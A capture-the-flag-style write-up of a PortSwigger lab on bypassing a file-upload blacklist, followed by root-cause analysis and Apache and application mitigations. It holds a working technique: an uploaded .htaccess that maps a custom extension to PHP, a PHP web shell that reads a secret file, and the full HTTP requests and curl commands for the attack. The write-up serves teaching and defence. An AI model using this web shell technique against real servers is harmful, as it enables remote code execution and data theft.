



# Lab 04: Web Shell Upload via Extension Blacklist Bypass

> **Topic**: File Upload Vulnerabilities
> **Lab Number**: 04
> **Platform**: PortSwigger Web Security Academy

## Category
File Upload — Extension Blacklist Bypass via Malicious `.htaccess` Upload

## Vulnerability Summary
The application blacklists dangerous file extensions (e.g., `.php`) to prevent web shell uploads. However, the server runs Apache and does not restrict uploading `.htaccess` configuration files. By uploading a `.htaccess` file that maps an arbitrary custom extension (`.l33t`) to the PHP executable MIME type (`application/x-httpd-php`), the blacklist is rendered useless — a file with the custom extension is accepted by the upload filter and executed as PHP by Apache. The web shell reads `/home/carlos/secret` and returns it in the response.

## Attack Methodology

### Step 1: Prepare Files Locally
Created both attack files on the local system:

```bash
cat > .htaccess << 'EOF'
AddType application/x-httpd-php .l33t
EOF

cat > exploit.l33t << 'EOF'
<?php echo file_get_contents('/home/carlos/secret'); ?>
EOF
```

```
-rw-r--r-- 1 vibhxr vibhxr  56 May 13 20:16 exploit.l33t
-rw-r--r-- 1 vibhxr vibhxr  38 May 13 20:15 .htaccess
```

### Step 2: Upload `.htaccess` to Redefine Extension Handling
Intercepted the avatar upload request in Burp Repeater and modified it to upload `.htaccess` with `Content-Type: text/plain`:

```http
POST /my-account/avatar HTTP/2
Host: 0ab900240347783985372b6b00b6000b.web-security-academy.net
Cookie: session=<session>
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryUIaAtrAvFPCNvXbk

------WebKitFormBoundaryUIaAtrAvFPCNvXbk
Content-Disposition: form-data; name="avatar"; filename=".htaccess"
Content-Type: text/plain

AddType application/x-httpd-php .l33t

------WebKitFormBoundaryUIaAtrAvFPCNvXbk
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundaryUIaAtrAvFPCNvXbk--
```

Response:

```http
HTTP/2 200 OK
Content-Length: 130

The file avatars/.htaccess has been uploaded.
```

Apache will now treat any `.l33t` file in `/files/avatars/` as executable PHP.

### Step 3: Upload PHP Shell as `exploit.l33t`
Changed the filename to `exploit.l33t` (not on the blacklist) with the PHP payload:

```http
------WebKitFormBoundaryUIaAtrAvFPCNvXbk
Content-Disposition: form-data; name="avatar"; filename="exploit.l33t"
Content-Type: image/jpeg

<?php echo file_get_contents('/home/carlos/secret'); ?>
------WebKitFormBoundaryUIaAtrAvFPCNvXbk--
```

Server accepted the upload — `.l33t` is not blacklisted.

### Step 4: Execute the Shell
```http
GET /files/avatars/exploit.l33t HTTP/2
Host: 0ab900240347783985372b6b00b6000b.web-security-academy.net
```

Response:

```http
HTTP/2 200 OK
Content-Type: text/html; charset=UTF-8
Content-Length: 32

TgGLJuaclVlWqzAp9b4yj609YswotqAG
```

Apache executed `exploit.l33t` as PHP (per the `.htaccess` directive) and returned the secret. Lab solved.







## Technical Root Cause

### Vulnerable Configuration (Blacklist + Unrestricted .htaccess)
```python
BLACKLISTED = {'.php', '.php3', '.php4', '.php5', '.phtml'}

def upload_avatar(request):
    file = request.FILES['avatar']
    ext = os.path.splitext(file.name)[1].lower()
    if ext in BLACKLISTED:
        return HttpResponseForbidden('File type not allowed')
    # .htaccess passes — not blacklisted
    # .l33t passes — not blacklisted
    save(file)
```

Apache then processes the uploaded `.htaccess`, which reconfigures the directory:

```apache
# Attacker-uploaded .htaccess
AddType application/x-httpd-php .l33t
# Now Apache executes *.l33t files through mod_php
```

### Secure Configuration
```apache
# Prevent .htaccess overrides in the upload directory
<Directory /var/www/files/avatars>
    AllowOverride None
    php_flag engine off
</Directory>
```

```python
# Allowlist instead of blacklist
ALLOWED = {'.jpg', '.jpeg', '.png', '.gif'}
ext = os.path.splitext(file.name)[1].lower()
if ext not in ALLOWED:
    return HttpResponseForbidden('Only image files are allowed')
```

## Impact
- **Blacklist Completely Bypassed**: A single `.htaccess` upload invalidates the entire extension blacklist for the upload directory
- **Remote Code Execution**: Any subsequent file with the mapped extension is executed as PHP
- **Persistent**: The `.htaccess` remains on the server, affecting all future uploads to that directory

**Severity: Critical**

## Proof of Concept

```bash
# 1. Upload .htaccess
curl -s -b cookies.txt \
  https://<lab>/my-account/avatar \
  -F "csrf=<token>" -F "user=wiener" \
  -F $'avatar=@/dev/stdin;filename=.htaccess;type=text/plain' \
  <<< 'AddType application/x-httpd-php .l33t'

# 2. Upload shell
curl -s -b cookies.txt \
  https://<lab>/my-account/avatar \
  -F "csrf=<token>" -F "user=wiener" \
  -F $'avatar=@/dev/stdin;filename=exploit.l33t;type=image/jpeg' \
  <<< "<?php echo file_get_contents('/home/carlos/secret'); ?>"

# 3. Execute
curl -s -b cookies.txt https://<lab>/files/avatars/exploit.l33t
```

## Key Takeaways
1. **Blacklists Are Inherently Incomplete**: Any extension not explicitly listed is permitted. An attacker only needs one unlisted executable extension or, as here, a configuration file that creates new ones. Allowlists (permit only known-safe extensions) are the correct approach.
2. **`.htaccess` Upload Is Equivalent to Server Misconfiguration**: Allowing users to upload `.htaccess` files gives them the ability to change Apache's behaviour for that directory — including redefining which extensions are executable. This must be blocked at the application level and disabled at the Apache level with `AllowOverride None`.
3. **`AllowOverride None` Is a Critical Hardening Step**: Apache's per-directory configuration override feature (`AllowOverride`) should be disabled for any directory that accepts user-uploaded content.
4. **Defence in Depth**: Even with a correct allowlist, the upload directory should have `php_flag engine off` and be served from a non-executable origin as additional layers.

## Mitigation

### Application Layer — Allowlist Extensions
```python
ALLOWED_EXTENSIONS = {'.jpg', '.jpeg', '.png', '.gif'}
ALLOWED_MIMETYPES = {'image/jpeg', 'image/png', 'image/gif'}
```

### Apache — Disable .htaccess Overrides in Upload Directory
```apache
<Directory /var/www/files/avatars>
    AllowOverride None
    php_flag engine off
    Options -ExecCGI
</Directory>
```

### Block `.htaccess` Explicitly as a Fallback
```python
if os.path.basename(file.name).lower() in {'.htaccess', '.htpasswd', 'web.config'}:
    return HttpResponseForbidden('Configuration files cannot be uploaded')
```

## References
- [PortSwigger — Web Shell Upload via Extension Blacklist Bypass](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-extension-blacklist-bypass)
- [PortSwigger — File Upload Vulnerabilities](https://portswigger.net/web-security/file-upload)
- [Apache — AllowOverride Directive](https://httpd.apache.org/docs/current/mod/core.html#allowoverride)
- [Apache — AddType Directive](https://httpd.apache.org/docs/current/mod/mod_mime.html#addtype)
- [CWE-434: Unrestricted Upload of File with Dangerous Type](https://cwe.mitre.org/data/definitions/434.html)
- [OWASP — Unrestricted File Upload](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)

## Tools Used
- Burp Suite Professional (Proxy, Repeater)
- Chromium
- curl

---

*Lab completed on: 2026-05-13*  
*Writeup by vibhxr*
